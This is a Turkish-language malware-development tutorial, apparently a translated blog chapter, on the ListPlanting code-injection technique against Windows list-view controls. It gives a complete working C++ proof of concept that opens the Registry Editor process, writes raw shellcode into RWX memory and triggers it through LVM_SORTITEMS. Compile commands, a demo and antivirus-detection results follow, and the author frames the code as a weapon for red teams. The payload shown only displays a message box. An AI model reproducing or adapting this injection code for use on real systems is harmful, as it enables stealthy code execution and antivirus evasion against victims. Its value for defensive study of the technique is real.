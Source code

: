 \newpage
\subsection{37. zararlı yazılım geliştirme hileleri: Listplanting. C++ örneği.}

﷽

Merhaba siber güvenlik meraklıları ve beyaz hackerlar!    

![injection](./images/81/2022-11-28_03-03.png){width="80%"}    

Bu yazı, kendi araştırmamın bir sonucu olarak yazılmıştır ve kötü amaçlı yazılım geliştiricilerinin kullandığı bir hileyi ele almaktadır: Listplanting.    

`LVM_SORTGROUPS`, `LVM_INSERTGROUPSORTED` ve `LVM_SORTITEMS` mesajlarını kullanarak, bir `ListView` kontrolünün öğelerinin ve gruplarının sıralama davranışları, bireysel tercihlere göre değiştirilebilir. List-view kontrolleri, öğelerin gruplar halinde gösterildiği kullanıcı arayüzü pencereleridir. `SysListView32` kontrolü, bir uygulamanın list-view ayarlarını işlem belleğinde depolar.      

*ListPlanting* bir list-view kontrolü kullanan bir işlemde sanal adres alanına kod kopyalayarak ve ardından bu kodu liste öğelerini sıralamak için özel bir geri arama (callback) olarak kullanarak gerçekleştirilebilir.     

### pratik bir örnek

Şimdi, pratik bir örneğe bakalım. Hile oldukça basittir.     

İlk olarak, bir pencereyi (window handle) alın:     

```cpp
HWND wpw = FindWindow(NULL, (LPCSTR)"Registry Editor");
HWND hw = FindWindowEx(wpw, 0, (LPCSTR)"SysListView32", 0);
```

Sonra, işlem kimliğini (process ID) alın ve işlemi açın (`OpenProcess` ile işlem tanıtıcısını alın):     

```cpp
GetWindowThreadProcessId(hw, &pid);
ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
```

Bir sonraki adımda, `VirtualAllocEx` ile `RWX` bellek ayırarak payload'ı "kopyalayın":     

```cpp
mem = VirtualAllocEx(ph, NULL, sizeof(my_payload), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

// copy payload
WriteProcessMemory(ph, mem, my_payload, sizeof(my_payload), NULL);
```

Son olarak, payload'u tetikleyin:     

```cpp
// trigger payload
PostMessage(hw, LVM_SORTITEMS, 0, (LPARAM)mem);
```

Belgeler [göre](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-postmessagea), `PostMessage` - Belirtilen pencereyi oluşturan iş parçacığına bağlı mesaj kuyruğuna bir mesaj yerleştirir ve iş parçacığının mesajı işlemesini beklemeden döner.     

PoC'min tam kaynak kodu:     

```cpp
/*
hack.cpp
code injection Listplanting
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/11/27/malware-tricks-24.html
*/
#include <windows.h>
#include <commctrl.h>
#include <iostream>
#pragma comment (lib, "user32.lib")

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  HANDLE ph;
  DWORD pid;
  LPVOID mem;

  // find window
  HWND wpw = FindWindow(NULL, (LPCSTR)"Registry Editor");
  HWND hw = FindWindowEx(wpw, 0, (LPCSTR)"SysListView32", 0);

  // obtain the process id and try to open process
  GetWindowThreadProcessId(hw, &pid);
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);

  // allocate RWX memory
  mem = VirtualAllocEx(ph, NULL, sizeof(my_payload), MEM_RESERVE | MEM_COMMIT,
   PAGE_EXECUTE_READWRITE);

  // copy payload
  WriteProcessMemory(ph, mem, my_payload, sizeof(my_payload), NULL);

  // trigger payload
  PostMessage(hw, LVM_SORTITEMS, 0, (LPARAM)mem);

  // free memory
  VirtualFreeEx(ph, mem, 0, MEM_DECOMMIT | MEM_RELEASE);
  CloseHandle(ph);

  return 0;
}
```

Gördüğünüz gibi, her zamanki gibi, basitlik için `meow-meow` messagebox payload'unu kullandım:      

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### demo

Hadi her şeyi aksiyon halinde görelim. "Malware"imizi derleyelim:     

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![injection](./images/81/2022-11-28_03-25.png){width="80%"}    

Then, run Registry Editor in the victim machine (`Windows 10 x64` in my case):      

Ardından, hedef makinede (benim durumumda `Windows 10 x64`) Kayıt Defteri  Düzenleyicisini (Registry Editor) çalıştırın:    

![injection](./images/81/2022-11-28_04-11.png){width="80%"}    

Ve `hack.exe` dosyamızı çalıştırın:      

```powershell
.\hack.exe
```

![injection](./images/81/2022-11-28_04-13.png){width="80%"}    

![injection](./images/81/2022-11-28_04-13_1.png){width="80%"}    

Yönetici olarak çalıştırın, çünkü Kayıt Defteri Düzenleyicisine (`regedit.exe`) enjekte etmek için yükseltilmiş ayrıcalıklar gereklidir.         

Doğruluk için, `Process Hacker 2`'yi de Yönetici olarak çalıştırın ve *memory* sekmesini kontrol edin:      

![injection](./images/81/2022-11-28_04-16.png){width="80%"}    

![injection](./images/81/2022-11-28_04-18.png){width="80%"}    

Gördüğünüz gibi, her şey mükemmel çalışıyor :)      

Şimdi `hack.exe`'yi VirusTotal'a yükleyelim:    

![injection](./images/81/2022-11-28_04-21.png){width="80%"}    

**Sonuç olarak, 71 antivirüs motorundan 19 tanesi dosyamızı zararlı olarak algıladı.**    

[https://www.virustotal.com/gui/file/a1037630f95f721c6a7a1b6d8c278b4e926253b3888ac838d507af8c8baf8844/detection](https://www.virustotal.com/gui/file/a1037630f95f721c6a7a1b6d8c278b4e926253b3888ac838d507af8c8baf8844/detection)     

Bu teknik, [InvisiMole](https://attack.mitre.org/software/S0260/)'da kullanılıyor. InvisiMole, *InvisiMole* Grubu tarafından en azından 2013 yılından beri kullanılan modüler bir casus yazılım yazılımıdır.      

Umarım bu yazı, mavi takım üyelerine bu ilginç teknik hakkında farkındalık kazandırır ve kırmızı takım üyelerinin cephanelerine bir silah ekler.      

[ATT&CK MITRE: ListPlanting](https://attack.mitre.org/techniques/T1055/015/)      
[InvisiMole](https://attack.mitre.org/software/S0260/)     
[PostMessage](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-postmessagea)     
[Github'taki kaynak kod](https://github.com/cocomelonc/meow/tree/master/2022-11-27-malware-tricks-24)       

